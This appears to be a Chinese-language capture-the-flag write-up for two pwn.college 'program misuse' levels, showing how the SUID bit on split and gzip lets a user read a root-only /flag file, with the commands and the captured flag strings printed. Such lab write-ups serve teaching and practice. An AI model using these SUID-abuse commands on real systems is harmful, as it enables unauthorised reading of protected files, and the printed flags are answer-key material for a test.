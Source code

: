 ```
hacker@program-misuse-level-15:~$
```
## level16 Requires you to understand their output to derive the flag from it!
```
hacker@program-misuse-level-16:~$ sh file.sh
Welcome to ./babysuid_level16!

This challenge is part of a series of programs that
require you to understand their output to derive the flag from it.

I just set the SUID bit on /usr/bin/split.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level16) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/split!
```
`split`是一个分块的工具，但是由于题中的flag很小，还达不到它默认的限度（默认参数需要看手册），因此在运行
```
split /flag
```
之后，就会在文件夹之下有个输出文件。
```
hacker@program-misuse-level-16:~$ cat xaa
pwn.college{oqsgCLV3hcD9AXs5bELwauYQHup.0FO1EDL2QjMyMzW}
```
**小总结，除了最近基本的进制、ascii等，base32和base64最好可以了解一下这两种编码方式**

## level17 Forces you to understand different archive formats!
```
hacker@program-misuse-level-17:~$ sh file.sh
Welcome to ./babysuid_level17!

This challenge is part of a series of programs that
force you to understand different archive formats.

I just set the SUID bit on /usr/bin/gzip.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level17) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/gzip!
```
牛马的`gzip`，压缩和解压缩，看来后几个都是这个意思

然后开始秒题
```
hacker@program-misuse-level-17:~$ gzip -f /flag -t
hacker@program-misuse-level-17:~$ ls /
bin   challenge  etc      home  lib32  libx32  mnt  proc  run   srv  tmp  var
boot  dev        flag.gz  lib   lib64  media   opt  root  sbin  sys  usr
hacker@program-misuse-level-17:~$ gzip -cd /flag.gz
pwn.college{QHVq0GV7-f7QFzzNe2jTzkeq6T8.0VO1EDL2QjMyMzW}
hacker@program-misuse-level-17:~$
```
